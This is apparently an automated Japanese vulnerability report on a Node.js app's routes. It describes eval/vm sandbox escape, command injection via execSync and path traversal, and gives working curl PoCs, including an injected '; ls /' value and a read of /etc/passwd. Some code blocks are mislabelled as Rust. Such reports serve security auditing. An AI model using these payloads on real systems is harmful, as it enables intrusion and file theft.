 # 解析レポート

![中高信頼度](https://img.shields.io/badge/信頼度-中高-orange) **信頼度スコア: 80**

## 脆弱性タイプ

- `RCE`
- `LFI`

## 解析結果

本コードには以下の深刻な脆弱性が確認されました。

1. リモートコード実行 (RCE)
   - /vm/execute エンドポイントではユーザー提供のコードを vm.Script 内で eval 実行しており、constructor.constructor を使ったサンドボックス脱出が可能です。
   - /query/graph ルートでも動的に eval を利用しており、外部入力をそのまま実行します。
   - /file/advanced-ops の `execSync` 呼び出しにはユーザー入力が埋め込まれており、コマンドインジェクションが可能です。

2. ローカルファイルインクルード/パス操作 (LFI)
   - /file/advanced-ops のファイルコピー(write/copy)操作で source/destination の検証を行っておらず、パス・トラバーサルによる任意ファイル読み書きが可能です。

これらの脆弱性は実際に悪用可能であり、システム全体の乗っ取りや機密情報の漏洩を引き起こします。

## PoC（概念実証コード）

```text
1) /vm/execute でのサンドボックス脱出
curl -X POST http://localhost:3000/vm/execute -H 'Content-Type: application/json' -d '{"code":"constructor.constructor('"return process"')().exit()"}'

2) /file/advanced-ops exec コマンドインジェクション
curl -X POST http://localhost:3000/file/advanced-ops -H 'Content-Type: application/json' -d '{"operation":"exec","source":"/tmp/test.txt; ls / > /tmp/out.txt","destination":"ignored"}'

3) /file/advanced-ops パストラバーサルによる LFI
curl -X POST http://localhost:3000/file/advanced-ops -H 'Content-Type: application/json' -d '{"operation":"copy","source":"../../../../etc/passwd","destination":"/tmp/passwd"}'
```

## 関連コードコンテキスト

### 関数名: /vm/execute
- 理由: ユーザー提供コードを vm サンドボックス内で実行し、constructor.constructor による脱出が可能
- パス: repo/routes/advanced.js
```rust
script.runInNewContext(vmContext, { timeout });
```

### 関数名: /file/advanced-ops (exec)
- 理由: ユーザー制御の source をコマンド文字列に直接埋め込んでおり、コマンドインジェクションが可能
- パス: repo/routes/advanced.js
```rust
const output = execSync(`cat ${source} | head -10`, { encoding: 'utf8' });
```

### 関数名: /query/graph
- 理由: 動的フィールドを eval しており、任意の JavaScript 実行による RCE が可能
- パス: repo/routes/advanced.js
```rust
if (field.includes('()')) { return eval(field); }
```

## 解析ノート

- ファイル操作・コマンド実行系でユーザー入力をそのまま利用している箇所を探索
- execSync や fs.readFileSync/fs.writeFileSync に直 input を埋め込み、パス検証がないためパス・トラバーサルとコマンドインジェクションを発見
- vm/execute と query/graph は動的実行手法を使っており、eval / vm.Script によるサンドボックス脱出を特定
- 他にも race condition や timing attack があるが、最も致命的なのはコード実行・ファイル操作系の RCE / LFI 脆弱性と判断


